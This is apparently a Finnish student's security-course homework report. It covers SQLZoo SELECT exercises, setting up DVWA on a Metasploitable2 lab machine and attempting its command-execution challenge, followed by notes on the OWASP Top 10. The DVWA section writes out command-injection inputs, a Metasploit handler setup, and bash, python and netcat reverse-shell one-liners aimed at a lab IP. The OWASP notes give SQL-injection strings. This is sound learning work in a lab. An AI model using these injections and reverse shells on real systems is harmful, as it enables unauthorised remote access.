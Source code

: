 # A
## 0 SELECT basics
Tehtävät olivat suhteellisen suoraviivaisia joten en niihin sen tarkemmin paneudu. Vaikka ovatkin kyllä hyvää kertausta
![image](https://user-images.githubusercontent.com/71498717/201321779-d361bcb7-1681-4225-9534-0db67eb2de6c.png)  
![image](https://user-images.githubusercontent.com/71498717/201321977-bbc77216-16c7-498e-9145-f0ef26cd9b0c.png)  
![image](https://user-images.githubusercontent.com/71498717/201322083-199b921c-741c-42bc-a41d-fa422452c0c1.png)  

## 2 SELECT from World kohdat 1-5
Valittiin taulusta tietyt kohdat mitkä haluttiin näyttää eli ei kaikkia  
![image](https://user-images.githubusercontent.com/71498717/201322619-5466360e-92b6-46e0-bb8c-a50d3476f7e7.png)  
Seuraavassa filteröitiin koon perusteella näkymään ne maat joissa on yli 200 miljoonaa asukasta  
![image](https://user-images.githubusercontent.com/71498717/201323066-7059d820-2575-4d95-9fc3-4c59dea28960.png)  
Seuraavassa piti jakaa gdp väkiluvulla ja palauttaa se tieto  
![image](https://user-images.githubusercontent.com/71498717/201323801-89ff2fbe-fbff-4c10-aa67-fc6b35aaa662.png)  
Seuraavassa jaettiin väkiluku miljoonalla, jotta saatiin väkiluku näkymään miljoonissa  
![image](https://user-images.githubusercontent.com/71498717/201324459-b9ffb40b-17f0-483a-b980-74310dfd1180.png)  
Viimeisessä valittiin tietyt maat nimen perusteella  
![image](https://user-images.githubusercontent.com/71498717/201325663-5fc87e67-d7f6-4ae7-a002-2f276187e803.png)  



# B Tee paikallinen tunnus DVWA Damn Vulnerable Web App -ohjelmaan
Ensin piti etisä metasploitable2 weppipalvelin joka löytyi, kun navigoi selaimella suotaan metasploitablen IP-osoitteeseen joka minulta löytyy ```192.168.252.3```  
![image](https://user-images.githubusercontent.com/71498717/201331029-f58f14e4-f967-4758-b035-d50dd1e3167a.png)  

Kirjaudutaan sisään annetuilla tunnuksilla  
![image](https://user-images.githubusercontent.com/71498717/201332391-228925e3-7aaf-450f-bde1-b49cec77c7a3.png)  

Ja käydään vaihtamassa DVWA Security low tasolle, jotta tehtävät olisi helpompia  

![image](https://user-images.githubusercontent.com/71498717/201332554-2ee707a5-c639-4e0b-900b-34ae334c8b5c.png)  


# C Execute! Ratkaise DVWA "Command Excution".
Aloitetaan kokeilemalla mitä tapahtuu jos käyttää sivua sen käyttötarkoitukseen eli pingaamiseen  
![image](https://user-images.githubusercontent.com/71498717/201343064-91dc8007-db61-42dc-a4f5-976780c113a3.png)  
Huomattiin, että sivu serveri ajaa ```ping 192.168.252.4```komennon ja palauttaa tulokset. Tästä voidaan päätellä, että komennot tapahtuu sivua pyörittävällä koneella. Mikäli komentoja putkitetaan ```;``` merkin avulla voidaan koneessa suorittaa komentoja. Komennolla ```192.168.252.4; ls``` listautuu koneen sen kansion tiedostot  
![image](https://user-images.githubusercontent.com/71498717/201347009-1e1d33b4-4871-4d6a-b386-a1c86dbb7ebd.png)  
Kokeillaan saadaanko tätä kautta avattua reverse shell omaan koneeseen. Avataan metasploit framework ja käytetään multi/handler moduulia ```use exploit/multi/handler ``` asetetaan payloadiksi linux/x64/meterpreter_reverse_tcp. ```set payload linux/x64/meterpreter_reverse_tcp``` ```options```´siitä aukeaa tarvittavat tiedot, jotta payload saadaan käytettyä oikein  
![image](https://user-images.githubusercontent.com/71498717/201350697-71d44fea-e5a9-41f9-a5cc-d1859a2edf1e.png)  
Pitää asettaa oman koneen ip kohtaan LHOST  ```set lhost 192.168.252.4``` ja portti olikin siellä valmiina niin ei tarvitse muuta kuin ```exploit```. Nähtävästi mentiin mutkat suoriksi ja itse exploit jäi asettamatta. Eli  ```use exploit/multi/handler ``` ```show payloads``` ```set payload 196```  
![image](https://user-images.githubusercontent.com/71498717/201351916-4a241a68-18c8-483e-a231-5462ad6b1dc7.png)  
```set lhost 192.168.252.4``` ja sitten muistetaan vielä laittaa palomuuri alas erillisessä shell ikkunassa```sudo ufw disable``` ja sen jälkeen exploit.  
![image](https://user-images.githubusercontent.com/71498717/201353594-df02b1c3-2ba8-4b38-a201-736b74f03987.png)  

Jotta reverse shell voidaan avata pitää dvwa sivulta lähettää komento shellin avaamiseksi. Sivulla https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet löytyy bashin komento joten kokeillaan sitä ensiksi. ```192.168.252.4; bash -i >& /dev/tcp/192.168.252.4/4444 0>&1``` syötetään tekstikenttään ja painetaan submit. Pari kertaa submittia painettuna täytyy tulla siihen tulokseen, että ei tällä komennolla ainakaan toimi. Joten kokeillaan toista. Kokeillaan pythonia ```192.168.252.4; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.252.4",4444))``` No ei sekään toiminut toivotulla tavalla. Sitten voisi kokeilla ihan perinteistä netcattia. ```192.168.252.4; nc -e /bin/sh 192.168.252.4 4444```. Sieltä saatiin jotain eloa, mutta ei saatu avattua reverse shelliä. Joten täytyy kokeilla jotain muuta.  
![image](https://user-images.githubusercontent.com/71498717/201360270-ccc591e2-fe0e-47fb-b90d-245ede2c99bb.png)  





 

# D

# X
## OWASP 10 2017
### A1 Injection
Haavoittuvuuksia löytyy yleensä SQL,LDAP,XPath,NoSQL ja XML ja muutamasta muusta.
Injektiot tehdään syöttämällä modifioitu parametri, minkä johdosta hyökkääjälle palautuu ylimääräistä dataa, tai hyökkääjä voi poistaa tauluja tai muokata niitä.
Esim. SQL tapauksessa hyökkääjä tulee SQL kyselyn ulkopuolelle käyttämällä ```'``` ja tekemällä toisen kyselyn perään tai käyttämällä ```' OR '1'=1´```.

### A2 Broken Authentication
Käytetään brute force tekniikkaa syöttämällä listoja tunnetuista salasanoista, jotta päästäisiin sisälle
Sovelluksen istuntoa ei keskeytetä tietyn ajan jälkeen ja sitä käytetään hyväksi, esim. julkisella koneella.
### A3 Sensitive Data Exposure
Salaista dataa ei ole salattu vaan se välitetään selkokielisenä. Hyökkääjä joka toimii väliäkätenä voi ottaa kaiken tiedon ylös.
Tietokanta käyttää automaattista salauksen purkua jolloin SQL injectiolla saa salatun datan selkokielisenä.
### A7 Cross Site Scripting
Hyökkääjä kaappaa käyttäjän cookien lähettämällä sen omalle sivulleen. Tämä on mahdollista, jos käyttäjän selaimessa on scripti, jonka voi saada esim painamalla, jotain linkkiä.
##  Chapter 21: Cross Site Scripting
- Jos uhrin selaimessa on xss haavoittuvuus ajetaan scripti selaimella.
- mikäli url sisältää muuttujien nimiä scriptejä pitäisi pystyä ajamaan.
- kommenttiosioon voi mahdollisesti tallentaa scriptejä, jotka ajetaan kaikilla sivulla vierailevilla.
- kommenttiosiossa voi olla myös scriptejä, jotka ajaa koodeja toiselta sivulta.
- selaimessa voi estää javascriptien ajon


# Y
